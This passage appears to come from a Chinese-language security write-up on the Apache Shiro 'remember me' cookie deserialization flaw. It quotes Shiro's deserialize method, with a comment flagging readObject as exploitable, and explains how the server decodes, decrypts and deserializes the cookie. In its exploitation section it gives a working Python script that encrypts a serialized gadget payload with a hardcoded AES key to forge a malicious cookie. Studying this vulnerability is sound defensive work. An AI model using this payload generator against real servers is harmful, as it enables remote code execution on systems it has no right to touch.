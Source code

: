 最后是反序列化

```java
public T deserialize(byte[] serialized) throws SerializationException {
    if (serialized == null) {
        String msg = "argument cannot be null.";
        throw new IllegalArgumentException(msg);
    }
    ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
    BufferedInputStream bis = new BufferedInputStream(bais);
    try {
        ObjectInputStream ois = new ClassResolvingObjectInputStream(bis);
        @SuppressWarnings({"unchecked"})
        T deserialized = (T) ois.readObject();  //这个readObject可以利用
        ois.close();
        return deserialized;
    } catch (Exception e) {
        String msg = "Unable to deserialze argument byte array.";
        throw new SerializationException(msg, e);
    }
}
```

**现在知道服务端接受Remember me Cookie之后，先进行base64解码，之后AES解密，最后进行反序列化。**

# 漏洞利用

用python写的生成payload的代码

```python
import sys
import base64
import uuid
from random import Random
from Crypto.Cipher import AES

def get_file_data(filename):
    with open(filename,'rb') as file:
        data = file.read()
    return data
    
def aes_enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(data)
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
    
if __name__ == '__main__':
    data = get_file_data("s.ser")
    print(aes_enc(data))
```

